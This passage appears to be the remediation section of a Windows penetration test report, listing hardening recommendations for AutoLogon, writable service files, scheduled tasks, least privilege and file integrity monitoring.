| **AutoLogon Configuration** | Disable AutoLogon unless it is strictly required. If automatic logon is necessary, ensure credentials are protected and regularly reviewed to minimise the risk of credential disclosure. |
| **Writable Service Files** | Restrict write permissions on service executables and their directories to trusted administrative accounts only. Regularly audit file permissions associated with Windows services. |
| **Overly Permissive Scheduled Tasks** | Ensure that scripts executed by scheduled tasks cannot be modified by lower-privileged users. Scheduled tasks running with elevated privileges should reference files with appropriately restricted permissions. |
| **Privilege Management** | Apply the principle of least privilege to both user accounts and service accounts. Periodically review permissions to identify and remove unnecessary access rights that could facilitate privilege escalation. |
| **System Hardening and Monitoring** | Monitor modifications to service executables, scheduled task scripts, and other security-sensitive files. Implement file integrity monitoring and endpoint detection to identify unauthorised changes before they can be exploited. |

Implementing these recommendations would significantly reduce the likelihood of an attacker progressing from anonymous network access to complete compromise of the Windows system.